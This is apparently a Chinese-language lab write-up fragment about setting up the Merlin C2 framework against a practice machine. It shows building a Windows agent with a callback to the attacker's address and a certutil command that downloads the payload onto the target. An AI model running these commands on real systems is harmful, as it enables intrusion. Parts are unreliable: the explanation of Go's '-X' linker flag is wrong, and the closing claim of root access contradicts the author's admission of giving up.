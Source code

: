 Merlin 打开需要创建 X509 的 SSL....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7Zdh8AyBGqRt0wpnvdxq2I80RCVczrCnuHnCSf37ccByiaQT0Ip0InYs3w/640?wx_fmt=png)

给自己创建了 key，时间为 7 天... 开始 Merlin 之旅...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdLwkobbYWeGO5nibn2Mw7qGKrDdyMWu2Y3gXUK7JCicUnmTjqgtWTx40g/640?wx_fmt=png)

可以看到运行 go run 命令，还需要更新源文件内容，等几分钟自动更新就好...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7Zd2QHuAFtHQPBpsAib0aZKpRZ18ic2Z145RSyeyJA4ZUqGySf7LIrZqz7Q/640?wx_fmt=png)

命令：`go run main.go`

运行后，根据提示已经通过 X.509 的密匙成功运行了... 这边发现 IP 地址是本地的，需要修改成 tun0 里的地址...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7Zd418bkmkUA9osmZA4bMuu4zkfOZ08wwFbuR0uopDgibeWibd58eQcztjA/640?wx_fmt=png)

```
go run main.go -i 10.10.14.5
```

通过 - i 来修改本地 IP...OK

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdWhvVRdQKqib840pHUJvdqHISBzI2MAYhYmPVpSUxhJLRFk1nHBX7QxA/640?wx_fmt=png)

```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.10.14.5:443" -o dayu.exe main.go
```

这里需要利用 main.go 创建一个 exe 链接 Mrelin...

前面是打错了几次命令，报错了...-X 是 HTTP/2.0 专属的二进制传输...-o 是输出文件... 意思就是创建 windows64 位的二进制文件....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdJaS2GgqbSX7So51Kcib8hVLAYF95usENBMkoOCibLIlibMGMpvpQrsuOQ/640?wx_fmt=png)

```
certutil -urlcache -split -f http://10.10.14.5/dayu.exe C:\\users\\public\\dayu.exe
```

上传该文件....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdLLNb9QxngEicmic95htKcELRn53vqfFmKdeTZ762vFbbMAxGSlxJcwMA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/TT8ic2JKBb6jlK434RibHzNljr956UE1SoMjawkXtRicWE16SX040OVmERla7ia6PpRZEAhV7jXcq41cMGaXRibHy1A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/8MwpenCNAibmYVEdEYmTrUwKKp2e3RyLasUur0sQZ4lviaKFOwwgKfcp4pvbVNrpHrPoVhVEZjJ3IV0MAxQtbEZg/640?wx_fmt=png)

好的，我从下午到晚上凌晨都卡在这而，按照思路是通过 EXE 以及 server.crt 在 main.go 上获得靶机的信息... 注入可以看出，他在本地执行了 merlin... 按照回复的命令我应该要到靶机上./dayu.exe \\10.10.14.5.... 此类命令.... 这方法我肯定不会去尝试，那不是直接得拿到权限才能使用的方法，那还有啥意思.... 我应该在前面 SSL 或者 EXE 生成的时候少了代码... 能力有限啊... 如果有大佬看到最后，希望给个解决方法，感激不尽，我放弃了....

我查看了 Merlin 作者的 Twitter，没有此类的解决信息... 这是一款黑客经常使用的渗透测试的软件，我是没找到网上有啥视频或者别的很仔细的教程... 希望有的分享下，谢啦！！！

这台靶机还是很舒服的，我玩了 burpsuit 对靶机的各种注入，比较舒服，大家可以尝试玩玩...

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。
